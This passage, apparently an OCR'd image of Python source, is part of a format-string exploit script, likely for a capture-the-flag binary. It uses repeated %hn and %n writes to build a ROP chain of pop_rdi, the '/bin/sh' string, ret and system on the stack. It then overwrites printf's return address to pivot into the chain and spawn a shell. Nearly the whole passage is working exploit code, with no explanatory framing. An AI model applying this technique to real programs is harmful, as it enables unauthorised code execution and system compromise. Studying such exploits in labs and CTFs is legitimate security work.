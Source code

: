 ```python3

ptable_helper_addr(33, pt_where+32, pt_rsp-32)
ptable(49, where+10, rsp-10)

ptable_helper_addr(33, pt_where+40, pt_rsp-40)
ptable(49, where+12, rsp-12)

# third 8 bytes
ptable_helper_addr(33, pt_where+48, pt_rsp-48)
ptable(49, where+16, rsp-16)

ptable_helper_addr(33, pt_where+56, pt_rsp-56)
ptable(49, where+18, rsp-18)

ptable_helper_addr(33, pt_where+64, pt_rsp-64)
ptable(49, where+20, rsp-20)

# fourth 8 bytes
ptable_helper_addr(33, pt_where+72, pt_rsp-72)
ptable(49, where+24, rsp-24)

ptable_helper_addr(33, pt_where+80, pt_rsp+176)
ptable(49, where+26, rsp-26)

ptable_helper_addr(33, pt_where+88, pt_rsp+168)
ptable(49, where+28, rsp-28)


# write pop_rdi -> binsh -> ret -> system (on the stack)
write4(54, int(hex(pop_rdi)[10:], 16), 107, "hn")
write4(55, int(hex(pop_rdi)[6:][:4], 16), 110, "hn")
write4(56, int(hex(pop_rdi)[2:][:4], 16), 49, "n")

write4(57, int(hex(binsh)[10:], 16), 118, "hn")
write4(58, int(hex(binsh)[6:][:4], 16), 83, "hn")
write4(59, int(hex(binsh)[2:][:4], 16), 49, "n")

write4(60, int(hex(ret)[10:], 16), 119, "hn")
write4(61, int(hex(ret)[6:][:4], 16), 110, "hn")
write4(62, int(hex(ret)[2:][:4], 16), 49, "n")

write4(63, int(hex(system)[10:], 16), 80, "hn")
write4(64, int(hex(system)[6:][:4], 16), 107, "hn")
write4(65, int(hex(system)[2:][:4], 16), 49, "n")

# overwrite printf ret with "add, rsp+offset;ret" to point at ROP chain
# create ptable for printf ret

printf_ret = stack - 336
print(f"printf ret at: {hex(printf_ret)}")

ptable_helper_addr(33, pt_where, 80)
ptable(49, int(hex(printf_ret)[10:], 16), 216)

ptable_helper_addr(33, pt_where+8, 72)
ptable(49, int(hex(printf_ret)[10:], 16)+2, 214)

ptable_helper_addr(33, pt_where+16, 64)
ptable(49, int(hex(printf_ret)[10:], 16)+4, 212)

ptable_helper_addr(33, pt_where+24, 56)
ptable(49, int(hex(printf_ret)[10:], 16)+5, 211)

```